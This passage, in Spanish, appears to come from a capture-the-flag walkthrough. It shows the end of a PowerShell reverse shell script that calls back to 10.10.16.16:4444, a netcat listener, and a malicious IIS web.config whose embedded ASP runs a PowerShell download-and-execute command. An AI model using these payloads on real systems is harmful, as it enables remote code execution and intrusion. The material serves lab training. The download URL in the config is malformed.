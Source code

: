 ```

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.16 -Port 4444
```

Lo siguiente que debemos hacer es ponernos en `escucha` por el `puerto 4444` con `rlwrap` y `netcat`

```
# rlwrap nc -nlvp 4444
```

En el `mismo directorio` donde tenemos el archivo `web.config` nos montamos un `servidor http`

```
# python -m http.server 80
```

Ahora vamos a modificar el archivo `web.config` para que `ejecute` el archivo `Invoke-PowerShellTcp.ps1` de nuestro equipo

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://Invoke-PowerShellTcp.ps1/Invoke-PowerShellTcp.ps1')")
%>
```